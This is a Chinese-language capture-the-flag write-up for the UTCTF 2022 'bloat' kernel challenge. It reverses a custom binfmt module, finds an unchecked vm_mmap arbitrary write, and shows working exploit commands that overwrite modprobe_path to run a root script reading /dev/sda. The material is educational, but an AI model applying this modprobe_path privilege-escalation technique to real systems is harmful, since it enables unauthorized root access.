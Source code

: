 ```yaml
---
title: UTCTF-2022-bloat-writeup
date: 2022-03-14 20:34:40
categories:
 - pwn-writeup
tags: 
 - UTCTF
 - kernel

---
```

<!--more-->

## 题目分析

### 准备工作
按照惯例，先解压:
```sh
mkdir rootfs
cd rootfs
mv ../rootfs.cpio.gz .
gunzip ./rootfs.cpio.gz
cpio -idmv < rootfs.cpio
```

kernel-pwn题目的突破口往往出现在出题者拓展的kernel-object中:
```sh
[rootfs]$ find ./ -name *.ko
./lib/modules/5.15.0/extra/bloat.ko
```

为了方便后面的调试，先把bzImage解压成elf，并解析出部分符号表:
```sh
vmlinux-to-elf bzImage vmlinux.bin
```
在run.sh末尾加上-s与-S选项，进入gdb:
```sh
gdb ./vmlinux.bin
(gdb)> target remote localhost:1234
```
当然，也可以直接
```c
gdb -ex 'set architecture i386:x86_64' \
-ex 'target remote localhost:1234' \
-ex 'add-symbol-file bloat.ko 0xffffffffc0000000' \
-ex 'b load_bloat_binary' \
-ex 'c' ./vmlinux.bin
```
一步到位，把断点下在load\_bloat\_binary函数上.

--------

### 漏洞分析
将bloat.ko拿进ida中分析:
```c++
v1 = strrchr(*(const char **)(a1 + 0x60), '.');// 文件后缀名判断
if ( !v1 )
	return 0xFFFFFFF8;
if ( strcmp(v1, ".bloat") )
	return 0xFFFFFFF8;
v2 = generic_file_llseek(*(_QWORD *)(a1 + 0x40), 0LL, 2LL);// 判断文件大小
generic_file_llseek(*(_QWORD *)(a1 + 0x40), 0LL, 0LL);
```
且根据a1是setup_new_exec等函数的参数，在:
[elixir.bootlin.com](https://elixir.bootlin.com/linux/v5.15/source/include/linux/binfmts.h#L17)中进行检索，确定a1的结构体:
```c
struct linux_binprm
{
	struct vm_area_struct *vma;
	unsigned __int64 vma_pages;
	struct mm_struct *mm;
	unsigned __int64 p;
	unsigned __int64 argmin;
	unsigned __int32 have_execfd : 1;
	unsigned __int32 execfd_creds : 1;
	unsigned __int32 secureexec : 1;
	unsigned __int32 point_of_no_return : 1;
	struct file *executable;
	struct file *interpreter;
	struct file *file;
	struct cred *cred;
	int unsafe;
	unsigned int per_clear;
	int argc;
	int envc;
	const char *filename;
	const char *interp;
	const char *fdpath;
	unsigned int interp_flags;
	int execfd;
	unsigned __int64 loader;
	unsigned __int64 exec;
	struct rlimit rlim_stack;
	char buf[128];
};
```

确定结构体后，发现有这样一行:
```c
vm_mmap(0LL, v6, 256LL, 7LL, 18LL, 0LL);
```
对于地址没有检查，造成了任意地址写，故考虑覆写modprobe_path.

--------

## exploition
#### 先将modprobe_path覆写为目标文件:
```sh
echo -ne "\x80\x81\x03\x82\xff\xff\xff\xff/tmp/a" > exp.bloat
```
#### 将目标操作写入a:
```sh
echo -e "#!/bin/sh\ncat /dev/sda > /tmp/flag" > /tmp/a
```
#### 触发调用modprobe_path:
```sh
touch b
chmod +x b a exp.bloat
/tmp/exp.bloat
/tmp/b
```
-------

```sh
$ cat /tmp/flag
utflag{oops_forgot_to_use_put_user283558318}
```
```sh
pwndbg> x/s &modprobe_path
0xffffffff82038180:     "/tmp/a"
```